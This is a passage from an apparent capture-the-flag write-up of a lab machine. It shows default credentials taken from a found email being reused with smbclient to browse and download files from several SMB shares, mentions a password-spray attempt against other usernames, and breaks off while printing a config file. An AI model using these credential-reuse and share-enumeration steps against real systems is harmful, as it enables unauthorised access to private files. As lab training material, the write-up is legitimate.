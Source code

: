 IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
{% endhighlight %}

And I found a possible set of credentials, tempuser:welcome2019! Noting the `Users` directory earlier, I logged back in with these credentials to that network share:

{% highlight bash linenos %}
smbclient \\\\10.10.10.178\\Users -U TempUser
Enter WORKGROUP\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> cd TempUser
smb: \TempUser\> dir
  .                                   D        0  Wed Aug  7 17:55:56 2019
  ..                                  D        0  Wed Aug  7 17:55:56 2019
  New Text Document.txt               A        0  Wed Aug  7 17:55:56 2019

                10485247 blocks of size 4096. 6449754 blocks available
                
smb: \TempUser\> get "New Text Document.txt"
getting file \TempUser\New Text Document.txt of size 0 as New Text Document.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)



root@hax0r:~# cat 'New Text Document.txt' 
{% endhighlight %}

However, this did not have any further information for me. I then attempted to login to the `Users` share with the other usernames, using the same password (users don't always change default passwords) but this approach also did not work. So, I moved on and used these credentials agaisnt other shares. I did find that it allowed me into `Secure$`:

{% highlight bash linenos %}
smbclient \\\\10.10.10.178\\Secure$ -U TempUser
Enter WORKGROUP\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Aug  7 18:08:12 2019
  ..                                  D        0  Wed Aug  7 18:08:12 2019
  Finance                             D        0  Wed Aug  7 14:40:13 2019
  HR                                  D        0  Wed Aug  7 18:08:11 2019
  IT                                  D        0  Thu Aug  8 05:59:25 2019

                10485247 blocks of size 4096. 6449738 blocks available
 {% endhighlight %}
 
 But, there was nothing within that network share that I could use to my advantage. Moving on, I was able to log into the `Data` share with the tempuser credentials. I was able to find two interesting files in this share, `RU_config.xml` and `config.xml`:
 
 {% highlight bash linenos %}
 smb: \IT\Configs\RU Scanner\> ls
  .                                   D        0  Wed Aug  7 15:01:13 2019
  ..                                  D        0  Wed Aug  7 15:01:13 2019
  RU_config.xml                       A      270  Thu Aug  8 14:49:37 2019

                10485247 blocks of size 4096. 6449935 blocks available
smb: \IT\Configs\RU Scanner\> get RU_config.xml 
getting file \IT\Configs\RU Scanner\RU_config.xml of size 270 as RU_config.xml (1.5 KiloBytes/sec) (average 17.6 KiloBytes/sec)


root@hax0r:~# cat RU_config.xml                                                                                                                                                                                                           
<?xml version="1.0"?>                                                                                                                                                                                                                      
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">      